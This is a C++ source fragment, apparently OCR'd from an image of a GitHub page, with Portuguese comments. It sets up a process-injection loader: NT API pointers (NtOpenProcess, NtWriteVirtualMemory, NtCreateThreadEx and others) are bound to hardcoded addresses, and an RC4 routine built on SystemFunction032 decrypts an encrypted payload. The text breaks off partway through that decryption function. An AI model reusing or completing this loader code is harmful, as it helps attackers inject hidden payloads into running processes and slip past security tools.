 ```cpp

typedef NTSTATUS(NTAPI* NtWaitForSingleObject_t)(
    HANDLE Handle,
    BOOLEAN Alertable,
    PLARGE_INTEGER Timeout
    );

typedef NTSTATUS(NTAPI* NtFreeVirtualMemory_t)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    PSIZE_T RegionSize,
    ULONG FreeType
    );

typedef NTSTATUS(NTAPI* NtClose_t)(
    HANDLE Handle
    );

// Endereços
constexpr uintptr_t addr_NtOpenProcess = 0x00007FFC4962DA10;
constexpr uintptr_t addr_NtAllocateVirtualMemory = 0x00007FFC4962D850;
constexpr uintptr_t addr_NtWriteVirtualMemory = 0x00007FFC4962DC90;
constexpr uintptr_t addr_NtProtectVirtualMemory = 0x00007FFC4962DF50;
constexpr uintptr_t addr_NtCreateThreadEx = 0x00007FFC4962ED80;
constexpr uintptr_t addr_NtWaitForSingleObject = 0x00007FFC4962D5D0;
constexpr uintptr_t addr_NtFreeVirtualMemory = 0x00007FFC4962D910;
constexpr uintptr_t addr_NtClose = 0x00007FFC4962D730;

// Convertendo endereços para funções
NtOpenProcess_t NtOpenProcess = reinterpret_cast<NtOpenProcess_t>(addr_NtOpenProcess);
NtAllocateVirtualMemory_t NtAllocateVirtualMemory = reinterpret_cast<NtAllocateVirtualMemory_t>(addr_NtAllocateVirtualMemory);
NtWriteVirtualMemory_t NtWriteVirtualMemory = reinterpret_cast<NtWriteVirtualMemory_t>(addr_NtWriteVirtualMemory);
NtProtectVirtualMemory_t NtProtectVirtualMemory = reinterpret_cast<NtProtectVirtualMemory_t>(addr_NtProtectVirtualMemory);
NtCreateThreadEx_t NtCreateThreadEx = reinterpret_cast<NtCreateThreadEx_t>(addr_NtCreateThreadEx);
NtWaitForSingleObject_t NtWaitForSingleObject = reinterpret_cast<NtWaitForSingleObject_t>(addr_NtWaitForSingleObject);
NtFreeVirtualMemory_t NtFreeVirtualMemory = reinterpret_cast<NtFreeVirtualMemory_t>(addr_NtFreeVirtualMemory);
NtClose_t NtClose = reinterpret_cast<NtClose_t>(addr_NtClose);

typedef struct _USTRING {
    ULONG Length;
    ULONG MaximumLength;
    PWSTR Buffer;
} USTRING;

typedef LONG NTSTATUS;

typedef NTSTATUS(NTAPI* fnSystemFunction032)(
    USTRING* Img,
    USTRING* Key
    );

BOOL RC4DEC(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
    NTSTATUS STATUS;
    USTRING Key = { dwRc4KeySize, dwRc4KeySize, reinterpret_cast<PWSTR>(pRc4Key) };
    USTRING Img = { sPayloadSize, sPayloadSize, reinterpret_cast<PWSTR>(pPayloadData) };
    char a_dll_name[] = "Advapi32.dll";
    char NotSysFunc32[] = "SystemFunction032";
```